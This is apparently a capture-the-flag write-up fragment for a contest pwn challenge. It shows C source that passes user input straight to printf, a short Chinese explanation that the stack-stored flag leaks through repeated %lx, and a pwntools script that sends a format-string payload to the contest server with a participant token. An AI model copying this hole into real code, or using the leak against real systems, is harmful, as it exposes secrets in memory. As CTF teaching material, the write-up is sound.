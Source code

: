 ```c
#include <stdio.h>
#include <string.h>
#include <unistd.h>

void test() {
    char buf[1024];
    char secrets[64] = "a_very_secret_string";
    int secreti1 = 114514;
    int secreti2 = 1919810;
    char publics[64] = "a_public_string";
    int publici = 0xdeadbeef;
    char flag1[64] = "a_flag";

    FILE* fp = fopen("flag_f503be2d", "r");
    fgets(flag1, 63, fp);
    fclose(fp);

    // get flag2 in another file
    while (1) {
        puts("Please input your instruction:\n");
        fgets(buf, 1023, stdin);
        if (memcmp(buf, "exit", 4) == 0)
            break;

        int t = printf(buf, publics, publici);
        if (t > 1024) {
            puts("Too long!\n");
            break;
        }
        putchar(10);
    }
}

int main() {
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);
    test();
    return 0;
}
```

`flag1` 被读到了栈里面，只要在 `printf` 后输足够多的 `%lx` 就能泄露数据。

```python
from pwn import *
import binascii
from icecream import ic

# sh = process('./pwn')

sh = remote('prob09.geekgame.pku.edu.cn', 10009)
sh.sendlineafter(
    'Please input your token: ',
    '419:MEUCIAJK6pgIYBAyoFwq0WANA1qSkViRLHOVsB2NajlbxhH9AiEAzmCTUCGKE9DnSt61ANO8cw2GpWE6Zj-1iFuTRm8E4Vg=')

payload = '%016lx ' * 30
print(payload)
sh.sendline(payload)

output = sh.recvline()
output = sh.recvline()
ic(output)
```